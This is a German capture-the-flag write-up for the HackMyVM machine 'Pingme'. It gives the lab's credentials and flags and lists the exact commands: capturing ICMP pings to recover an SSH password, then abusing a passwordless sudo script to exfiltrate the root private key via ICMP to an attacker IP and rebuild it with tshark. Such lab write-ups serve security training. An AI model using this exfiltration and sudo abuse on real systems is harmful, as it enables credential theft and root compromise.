 # Pingme - HackMyVM (Medium)

![Pingme.png](Pingme.png)

## Übersicht

*   **VM:** Pingme
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Pingme)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 5. März 2022
*   **Original-Writeup:** https://alientec1908.github.io/Pingme_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Pingme" zu erlangen. Der initiale Zugriff erfolgte durch einen unkonventionellen Informationsleak: Eine Webseite auf Port 80 löste beim Aufruf `ping`-Befehle an die IP des Besuchers aus. Durch Analyse des ICMP-Traffics mit `tcpdump` und `tshark` konnten SSH-Zugangsdaten (`pinger:P!ngM3`) extrahiert werden. Nach dem SSH-Login als `pinger` wurde eine unsichere `sudo`-Regel entdeckt, die es erlaubte, ein benutzerdefiniertes Skript (`/usr/local/sbin/sendfilebyping`) als Root ohne Passwort auszuführen. Dieses Skript sendete den Inhalt einer beliebigen Datei Zeichen für Zeichen über ICMP-Pakete an eine angegebene IP-Adresse. Dies wurde genutzt, um den privaten SSH-Schlüssel des Root-Benutzers (`/root/.ssh/id_rsa`) zu exfiltrieren, was schließlich den Root-Login ermöglichte.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `curl`
*   `tcpdump`
*   `tshark`
*   `awk`
*   `cut`
*   `tr`
*   `sed`
*   `ssh`
*   `sudo`
*   Standard Linux-Befehle (`vi`, `chmod`, `ls`, `cat`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Pingme" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Initial Access (SSH als `pinger` via ICMP Data Exfiltration):**
    *   IP-Adresse des Ziels (192.168.2.124) mit `arp-scan` identifiziert. (Hinweis: Der Bericht erwähnt Port 80 als offen, obwohl der Nmap-Scan diesen nicht explizit als offen zeigte, aber der `curl`-Befehl darauf funktionierte).
    *   Ein `curl`-Aufruf auf `http://192.168.2.124` zeigte, dass die Webseite einen `ping`-Befehl an die IP des Angreifers auslöst und "transmitting ICMP packets" erwähnt.
    *   Mittels `tcpdump -i eth0 src 192.168.2.124 -w user.cap` wurde der ICMP-Traffic vom Ziel zum Angreifer aufgezeichnet.
    *   `tshark -r user.cap -V | grep ^0020 | awk '{print $18}'` (oder eine ähnliche Kette) wurde verwendet, um Daten aus dem Payload der ICMP-Pakete zu extrahieren.
    *   Aus den extrahierten Daten wurden die SSH-Credentials `pinger`:`P!ngM3` rekonstruiert.
    *   Erfolgreicher SSH-Login als `pinger` mit den gefundenen Credentials.

2.  **Privilege Escalation (von `pinger` zu `root` via `sudo` & ICMP Exfiltration):**
    *   `sudo -l` als `pinger` zeigte, dass der Befehl `/usr/local/sbin/sendfilebyping` als `root` ohne Passwort ausgeführt werden durfte: `(root) NOPASSWD: /usr/local/sbin/sendfilebyping`.
    *   Das Skript `sendfilebyping` nahm eine Ziel-IP und einen Dateipfad als Argumente entgegen und sendete den Inhalt der Datei Zeichen für Zeichen über ICMP-Pakete.
    *   Auf dem Angreifer-System wurde `tcpdump -i eth0 icmp and src 192.168.2.124 -w key.cap` gestartet, um die eingehenden ICMP-Pakete zu erfassen.
    *   Auf dem Zielsystem wurde als `pinger` der Befehl `sudo /usr/local/sbin/sendfilebyping ANGRIFFS_IP /root/.ssh/id_rsa` ausgeführt.
    *   Die aufgezeichnete `key.cap`-Datei wurde auf dem Angreifer-System mit `tshark -r key.cap -V | grep 0020 | awk '{print $18}' | cut -c 1 | tr -d '\n' | tr '.' '\n' | sed -r 's/(.*SH|P.*TE|KEY)/& /g' > id_root_rsa` verarbeitet, um den privaten SSH-Schlüssel des Root-Benutzers zu rekonstruieren.
    *   Der rekonstruierte private Schlüssel wurde in einer Datei gespeichert (z.B. `id_root`), die Berechtigungen gesetzt (`chmod 600 id_root`).
    *   Erfolgreicher SSH-Login als `root` mit dem extrahierten privaten Schlüssel (`ssh root@192.168.2.124 -i id_root`).
    *   Die User-Flag (`HMV{ICMPisSafe}`) wurde in `/home/pinger/user.txt` gefunden.
    *   Die Root-Flag (`HMV{ICMPcanBeAbused}`) wurde in `/root/root.txt` gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Information Disclosure / Data Exfiltration via ICMP:** Die Webanwendung löste ICMP-Pings aus, die SSH-Credentials im Payload enthielten. Ein `sudo`-privilegiertes Skript ermöglichte das Auslesen beliebiger Dateien und deren Exfiltration über ICMP.
*   **Unsichere `sudo`-Regel:** Ein Benutzer durfte ein benutzerdefiniertes Skript als Root ausführen, das zum Auslesen sensibler Dateien missbraucht werden konnte.
*   **Schwache Passwörter:** Das Passwort `P!ngM3` für `pinger` war durch die ICMP-Exfiltration auffindbar.

## Flags

*   **User Flag (`/home/pinger/user.txt`):** `HMV{ICMPisSafe}`
*   **Root Flag (`/root/root.txt`):** `HMV{ICMPcanBeAbused}`

## Tags

`HackMyVM`, `Pingme`, `Medium`, `ICMP Data Exfiltration`, `Information Leak`, `sudo Exploit`, `SSH`, `Linux`, `Privilege Escalation`
